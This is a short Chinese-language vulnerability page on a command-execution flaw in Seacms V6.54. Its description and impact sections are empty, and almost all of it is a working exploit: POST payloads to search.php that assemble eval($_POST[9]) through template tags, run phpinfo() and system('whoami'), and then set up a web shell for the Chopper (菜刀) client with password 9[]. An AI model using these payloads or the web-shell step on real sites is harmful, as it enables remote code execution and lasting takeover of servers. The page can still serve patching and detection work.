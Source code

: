 ```yaml
---
title: "Seacms V6.54"
id: zhfly3115
---
```


# Seacms V6.54 命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 命令执行payload

> path:

```
http://0-sec.org/search.php 
```

> POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo(); 
```

* * *

> path:

```
http://0-sec.org/search.php 
```

> POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami"); 
```

> 权限足够的话，`file_put_concents(“connect.php”,”“)`，然后连接菜刀即可

> 权限不足的话，利用payload构造url：

```
http://0-sec.org/search.php?searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9])) 
```

> 连接放入菜刀，密码是 9[]